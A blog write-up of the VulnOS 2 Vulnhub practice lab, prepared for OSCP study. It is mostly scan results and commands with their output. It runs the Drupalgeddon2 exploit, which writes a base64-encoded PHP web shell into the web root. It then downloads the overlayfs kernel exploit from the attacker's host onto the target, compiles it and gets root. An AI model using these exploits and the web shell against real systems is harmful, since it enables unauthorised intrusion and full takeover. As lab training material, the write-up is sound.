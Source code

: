 ```yaml
---
layout: single_c
title:  "Vulnhub - VulnOS 2 Writeup"
toc: true
date:   2020-03-24 10:43:16 +0530
categories: Vulnhub
tags: OSCP
classes: wide
---
```

## Description
[Vulnhub - VulnOS 2.](https://www.vulnhub.com/entry/vulnos-2,147/) VulnOS are a series of vulnerable operating systems packed as virtual images to enhance penetration testing skills. This is version 2 - Smaller, less chaotic !
As time is not always on my side, It took a long time to create another VulnOS. But I like creating them. The image is build with VBOX. Unpack the file and add it to your virtualisation software. Your assignment is to pentest a company website, get root of the system and read the final flag


## Enumeration
Start off with an `nmap` scan

### Nmap
```bash
Nmap scan report for vulnos.com (192.168.113.4)
Host is up, received arp-response (0.00042s latency).
Scanned at 2020-03-14 08:06:25 EDT for 27s
Not shown: 65532 closed ports
Reason: 65532 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: VulnOSv2
6667/tcp open  irc     syn-ack ttl 64 ngircd
MAC Address: 08:00:27:57:4F:AA (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 198.841 days (since Wed Aug 28 11:56:06 2019)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Nmap done at Sat Mar 14 08:06:52 2020 -- 1 IP address (1 host up) scanned in 29.33 seconds
```
We get hits on different ports such as 22 [SSH], 80[HTTP] and 6667[irc]. The target seems to be running a webserver.
We are greeted with a message from the author. The vulnerable web application is hosted at `http://vulnos.com/jabc/`

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/vulnos/web.png){: .align-center}

### Wappalyzer

`wappalyzer` is a firefox plugin that can be used to id the technologies used by a website.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/vulnos/wap.png){: .align-center}

We have `drupal 7` as the CMS. Do a quick search using `searchsploit` to see if there are any exploits available.

```bash
kali@kali:~/Desktop/vulnhub/vulnos$ searchsploit drupal 7 | cut -b 1-150
------------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                                                                        
                                                                                                                                                      
------------------------------------------------------------------------------------------------------------------------------------------------------
Drupal 4.7 - 'Attachment mod_mime' Remote Command Execution                                                         
Drupal 4.x - URL-Encoded Input HTML Injection                                                                                        
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)                 
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)                  
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)       
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)       
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)          
Drupal 7.12 - Multiple Vulnerabilities                                                                              
Drupal 7.x Module Services - Remote Code Execution                                                                  
Drupal < 4.7.6 - Post Comments Remote Command Execution                                                             
Drupal < 5.22/6.16 - Multiple Vulnerabilities                                                                                        
Drupal < 7.34 - Denial of Service                                                                                   
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                           
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)                        
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution                
Drupal Module CKEditor < 4.1WYSIWYG (Drupal 6.x/7.x) - Persistent Cross-Site Scripting             
Drupal Module Coder < 7.x-1.3/7.x-2.6 - Remote Code Execution                                      
Drupal Module Cumulus 5.x-1.1/6.x-1.4 - 'tagcloud' Cross-Site Scripting                                                              
Drupal Module Drag & Drop Gallery 6.x-1.5 - 'upload.php' Arbitrary File Upload                                                       
Drupal Module Embedded Media Field/Media 6.x : Video Flotsam/Media: Audio Flotsam - Multiple Vulnerabilities                         
Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)                                                   
Drupal avatar_uploader v7.x-1.0-beta8 - Arbitrary File Disclosure                                                   
------------------------------------------------------------------------------------------------------------------------------------------------------
```

## Low Shell

After going through multiple possible exploits, I found one that was working.  
[Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution](https://www.exploit-db.com/exploits/44449)  
Copy the exploit to `kali` machine and run the exploit to get a shell.
```bash
kali@kali:~/Desktop/vulnhub/vulnos$ ruby drupadaggon.rb http://vulnos.com/jabc
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://vulnos.com/jabc/
[i] Proxy  : 127.0.0.1:8080
--------------------------------------------------------------------------------
[!] MISSING: http://vulnos.com/jabc/CHANGELOG.txt    (HTTP Response: 404)
[!] MISSING: http://vulnos.com/jabc/core/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://vulnos.com/jabc/includes/bootstrap.inc    (HTTP Response: 200)
[!] WARNING: Could be a false-positive [1-1], as the file could be reported to be missing
[!] MISSING: http://vulnos.com/jabc/includes/bootstrap.inc    (HTTP Response: 200)
[!] MISSING: http://vulnos.com/jabc/core/includes/bootstrap.inc    (HTTP Response: 404)
[!] MISSING: http://vulnos.com/jabc/includes/database.inc    (HTTP Response: 404)
[+] Found  : http://vulnos.com/jabc/    (HTTP Response: 200)
[+] Metatag: v7.x [Generator]
[!] MISSING: http://vulnos.com/jabc/    (HTTP Response: 200)
[+] Drupal?: v7.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo OUNCKHJJ
[+] Result : OUNCKHJJ
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://vulnos.com/jabc/shell.php)
[!] Response: HTTP 200 // Size: 6.   ***Something could already be there?***
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://vulnos.com/jabc/shell.php' -d 'c=hostname'
VulnOSv2>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Root Shell
The kernel version of the system is
```bash
[-] Kernel information:
Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux
```

```bash
kali@kali:~/Desktop/vulnhub/vulnos$ searchsploit ubuntu 3.13.0 | cut -b 1-150
-------------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                                                                                                 
                                                                                                                                                                     
-------------------------------------------------------------------------------------------------------------------------------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                                              
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access /etc/shadow)                         
-------------------------------------------------------------------------------------------------------------------------------------------------------
```
We have a [Ubuntu kernel exploit.](https://www.exploit-db.com/exploits/37292)  
Copy the exploit `Ubuntu` kernel exploit, compile it and run to get `root`.

```bash
www-data@VulnOSv2:/tmp$ wget http://192.168.1.9:8000/overlays.c
wget http://192.168.1.9:8000/overlays.c
--2020-03-22 17:20:06--  http://192.168.1.9:8000/overlays.c
Connecting to 192.168.1.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4982 (4.9K) [text/plain]
Saving to: 'overlays.c'

100%[======================================>] 4,982       --.-K/s   in 0s      

2020-03-22 17:20:06 (769 MB/s) - 'overlays.c' saved [4982/4982]


www-data@VulnOSv2:/tmp$ gcc overlays.c
gcc overlays.c
www-data@VulnOSv2:/tmp$ ./a.out
./a.out
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cd /root
cd /root
# ls
ls
flag.txt
# cat flag.txt
cat flag.txt
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.

What do you think of A.I.?
# 
```

We are root!.

## Further Readings

1. [Ubuntu Kernel vulnerability explained](https://www.exploit-db.com/exploits/37293)